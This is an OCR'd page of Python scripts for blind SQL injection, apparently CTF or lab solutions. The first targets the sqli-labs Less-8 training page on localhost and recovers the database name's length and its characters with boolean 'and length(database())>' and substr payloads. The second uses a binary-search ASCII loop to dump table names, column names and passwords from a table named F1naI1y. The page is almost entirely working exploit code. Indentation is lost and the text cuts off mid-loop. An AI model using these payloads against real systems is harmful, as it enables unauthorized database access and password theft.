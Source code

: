 ```plain
print chr(int(i))
---------------------------------------------------
import requests
def database_len():
for i in range(1,10):
url = '''http://127.0.0.1/sqli-labs-master/Less-8/index.php'''
payload = '''?id=1' and length(database())>%s''' %i
# print(url+payload+'%23')
r = requests.get(url+payload+'%23')
if 'You are in' in r.text:
print(i)

else:
#print('false')
print('database_length:',i)
break
database_len()

def database_name():
name = ''
for j in range(1,9):
for i in 'sqcwertyuioplkjhgfdazxvbnm':
url = "http://127.0.0.1/sqli-labs-master/Less-8/index.php?id=1' and substr(database(),%d,1)='%s'" %(j,i)
# print(url+'%23')
r = requests.get(url+'%23')
if 'You are in' in r.text:
name = name+i

print(name)

break
print('database_name:',name)



database_name()
Plain Text
```



```plain
import time
import requests
url = ""
result = ''
i = 0
while True:
i = i + 1
head = 32
tail = 127
while head < tail:
mid = (head + tail) >> 1
# payload = '(ascii(substr(database(),%d,1))>%d)' % (i, mid)
# payload = f'(ascii(substr((select(group_concat(table_name))from(information_schema.tables)where(table_schema=database())),{i},1))>{mid})'
# payload = f'(ascii(substr((select(group_concat(column_name))from(information_schema.columns)where(table_name="F1naI1y")),{i},1))>{mid})'
payload = f'(ascii(substr((select(group_concat(password))from(F1naI1y)),{i},1))>{mid})'
r = requests.get(url + payload)
# print(r.text)
time.sleep(0.1)
if "Click" in r.text:
```